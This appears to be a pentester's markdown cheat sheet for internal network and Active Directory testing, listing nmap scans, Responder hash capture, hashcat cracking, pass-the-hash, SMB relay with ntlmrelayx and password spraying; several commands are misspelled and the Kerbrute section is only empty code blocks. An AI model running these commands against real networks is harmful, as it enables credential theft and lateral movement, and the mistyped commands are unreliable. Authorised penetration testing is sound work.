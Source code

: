 # Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
#### After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```
#### Pass The Hash
```bash
hcrackmapexec smb IP-address/CIRD -U FirstName.LastName -H Hash-File --local
```

### SMB Relay attack
#### Make sure you turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```
- For this attack you need to have ntml hash, use can use responder for capture hash.
- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open | tee -a target.txt
```

#### Use ntlmrelayx
```bash
python3 ntmlrelayx.py -tf /path/to/target_host_nmap_above -smb3supprt
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```

### Active Directory
#### Nmap. 
```bash
nmap -Pn -sV -sC -oN top IP-Address
```
- Look for ports such as :
```bash
53 → DNS
139,135,445 → RPC or SMB
3389 → RDP or domain controller
88 → kerberos
389 → Ldap
636 → ldaps
445 → SMB
```
#### enum4linux
```bash
enum4linux -A IP-Address
```
 #### Abusing Kerberos.
 - Kerbrute can be used to perform discovery of user,passwords and even password spray. It's just a bruteforce tool so you need have a list of username and password. Recommendation : Try building custom username (of an organization) and password.
```bash

```
```bash

``````bash

```
```bash

``````bash

```
```bash


```

